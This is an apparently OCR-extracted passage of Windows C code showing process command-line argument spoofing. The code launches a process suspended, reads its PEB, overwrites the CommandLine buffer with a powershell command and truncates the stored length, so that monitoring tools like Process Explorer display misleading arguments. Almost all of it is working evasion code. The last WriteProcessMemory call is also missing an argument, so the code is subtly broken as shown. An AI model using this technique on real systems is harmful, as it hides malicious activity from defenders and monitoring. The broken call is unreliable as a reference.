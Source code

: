 ```
        FALSE, 
        CREATE_SUSPENDED | CREATE_NEW_CONSOLE,
        NULL, 
        "C:\\Windows\\System32\\", 
        &si, 
        &pi);
 
    if (success == FALSE) {
        printf("[!] Error: Could not call CreateProcess\n");
        return 1;
    }
 
    // Retrieve information on PEB location in process
    NtQueryInformationProcess2 ntpi = (NtQueryInformationProcess2)GetProcAddress(LoadLibraryA("ntdll.dll"), "NtQueryInformationProcess");
    ntpi(
        pi.hProcess, 
        ProcessBasicInformation, 
        &pbi, 
        sizeof(pbi), 
        &retLen
    );
 
    // Read the PEB from the target process
    success = ReadProcessMemory(pi.hProcess, pbi.PebBaseAddress, &pebLocal, sizeof(PEB), &bytesRead);
    if (success == FALSE) {
        printf("[!] Error: Could not call ReadProcessMemory to grab PEB\n");
        return 1;
    }
 
    // Grab the ProcessParameters from PEB
    parameters = (RTL_USER_PROCESS_PARAMETERS*)readProcessMemory(
        pi.hProcess, 
        pebLocal.ProcessParameters, 
        sizeof(RTL_USER_PROCESS_PARAMETERS) + 300
    );
 
    // Set the actual arguments we are looking to use
    WCHAR spoofed[] = L"powershell.exe -NoExit -c Write-Host Surprise, arguments spoofed\0";
    success = writeProcessMemory(pi.hProcess, parameters->CommandLine.Buffer, (void*)spoofed, sizeof(spoofed));
    if (success == FALSE) {
        printf("[!] Error: Could not call WriteProcessMemory to update commandline args\n");
        return 1;
    }
    
    /////// Below we can see an example of truncated output in ProcessHacker and ProcessExplorer /////////
 
    // Update the CommandLine length (Remember, UNICODE length here)
    DWORD newUnicodeLen = 28;
    
    success = writeProcessMemory(
        pi.hProcess, 
        (char *)pebLocal.ProcessParameters + offsetof(RTL_USER_PROCESS_PARAMETERS, CommandLine.Length), 
        (void*)&newUnicodeLen, 
    );
    if (success == FALSE) {
        printf("[!] Error: Could not call WriteProcessMemory to update commandline arg length\n");
        return 1;
    }
```